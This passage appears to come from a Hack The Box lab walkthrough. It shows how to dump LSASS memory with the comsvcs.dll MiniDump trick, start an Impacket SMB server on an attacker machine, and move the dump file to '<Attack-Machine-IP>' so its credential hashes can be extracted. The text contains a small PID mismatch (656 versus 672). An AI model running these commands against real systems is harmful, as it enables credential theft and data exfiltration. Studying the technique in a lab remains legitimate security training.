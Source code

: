 In my case the PID of the lsass is 656 which I will use in the next command. The following command is used to create a memory dump of the LSASS (Local Security Authority Subsystem Service) process in Windows:
```c
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\Uses\Vendor\AppData\Local\Temp\lsass.dmp full
```

When we run this command, then we can navigate to `C:\Uses\Vendor\AppData\Local\Temp\` directory and list the files and we will see our dumped lsass file, waiting for us to be moved to our attack machine ;)

Now on out attack machine, we use the following command to set up a simple SMB (Server Message Block) server using the Impacket library in Python, to get the hash
```c
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1052766/Documents/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

- **`sudo`**:
    - This command is used to run the following command with elevated privileges (as a superuser). This is often necessary for network operations or accessing certain files and directories.
- **`python3`**:
    - This indicates that you are running a Python 3 script. Impacket is a collection of Python classes for working with network protocols, particularly those used in Windows environments.
- **`/usr/share/doc/python3-impacket/examples/smbserver.py`**:
    - This is the path to the SMB server script included with the Impacket library. This script allows you to create an SMB server to share files over the SMB protocol.
- **`-smb2support`**:
    - This flag enables support for the SMB2 protocol. SMB2 is a more efficient and feature-rich version of the SMB protocol compared to its predecessor, SMB1. Enabling this support allows clients using SMB2 to connect and interact with your SMB server.
- **`CompData`**:
    - This is the name of the share that will be created by the SMB server. When clients connect to your SMB server, they will see this share listed as **`CompData`**. It serves as a point of access for shared files or directories.
- **`/home/htb-ac-1052766/Documents/`**:
    - This specifies the local directory that will be shared via the SMB server. In this case, the contents of the **`/home/htb-ac-1052766/Documents/`** directory will be accessible to clients connecting to the SMB share named **`CompData`**. Change the htb-ac-1052766 to the name of your user

In a nutshell we need to use this command to make file-transfer of `lsass.dmp` file from Windows victim machine to our attacking machine 

Then on the Windows victim machine in powershell we can now move the lsass.dmp file to our attack machine:
```c
C:\>move lsass.dmp \\<Attack-Machine-IP>\CompData
        1 file(s) moved.
```
